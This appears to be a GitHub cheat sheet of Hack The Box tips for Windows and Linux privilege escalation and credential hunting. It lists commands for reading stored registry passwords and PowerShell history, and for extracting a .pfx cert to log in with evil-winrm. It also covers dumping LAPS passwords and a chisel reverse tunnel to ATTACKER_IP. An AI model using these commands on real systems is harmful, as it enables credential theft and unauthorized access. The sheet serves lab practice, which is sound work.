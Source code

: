 # HTB-tips

## Windows Privilege Escalation - Registry Autologon
Sometimes windows stores credentials in plaintext (DefaultDomainName, DefaultUserName,DefaultPassword)

EXAMPLE USAGE:
```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```


## Windows Privilege Escalation - Powershell history file
Windows stores the powershell history in a file in the psreadlinefolder.(just like linux stores it under the .bash_history).
```
more C:\users\adam\appdata\roaming\microsoft\windows\powershell\psreadline\*.txt
```

## Linux Privilege Escalation - Dcoker Container Mounted files
A docker conatiner is mounted to a home directory. The docker connects the containers file system to the hosts file system -- live. So any changes in the host file system also affects in the docker and vice versa.If the we get root on the docker conatiner(by default we are root inside the docker) this can result in easy priv esc by setting up the setuid to a any binary.

## Linux Privilege Escalation - Port Forwarding using Chisel
Attacker Machine
```bash
chisel server -p ATTACKER_PORT --reverse
```
Target Machine
```bash
chisel client ATTACKER_IP:ATTACKER_PORT R:LOCAL_PORT:127.0.0.1:PORT_RUNNING_ON_TARGET_MACHINE
```

## Windows Exploitation - Pass the Cert
If we get a .pfx file we can get the cert.pem and key.pem from the .pfx file and try to logging in the machine if winrm service is enabled using pass the cert attack.
Extracting the key and cert
```
openssl pkcs12  -in legacyy_dev_auth.pfx -info -nokeys -out cert.pem
openssl pkcs12  -in legacyy_dev_auth.pfx -info -nocerts -nodes -out key.pem
```
After getting the cert and the key we can log-in
```
evil-winrm -i IP -S -k key.pem -c cert.pem
```

## Windows Credentail Hunting - Member of LAPS Group
LAPS is used to store administrator passwords which are complex and randomized, We can use a lapsdumper from github to extract the administrator password
```
lapsdumper.py -u user -p password -d domain.local
```

## Linux Privilege escalation - ENV variables
Alwyas check for env varibles specially if landed in a docker environment, or any container.
```
env
```

## Linux Privilege escalation - Backup Files
Check for backup files if have permissions in the source code directory or part of any group like sysadm, adm(4)
```
find /path/to/source/code 2>/dev/null | grep -i "*.bak"
```

## Port forwarding Using ssh
If we have a user with ssh creds or public key(id_rsa) we can login and start a local port forwarding, which will forward the ports of the machine to out local machine and we will be able to view the service running on the machine in their internal nertwork
```
ssh -L machineport:ourmachineip:ourmachineport user@machine.local
```

## Exploiatation - Extract username from a public ssh key (id_rsa)
If we got a users id_rsa ssh key and we dont know the user which the public key is of, we can extract the username from the key by decrypting the keys and reading the hex dump, at the very end we can find the user and the machine which the key belongs to.
```
cat id_rsa | base64 -d | xxd
```
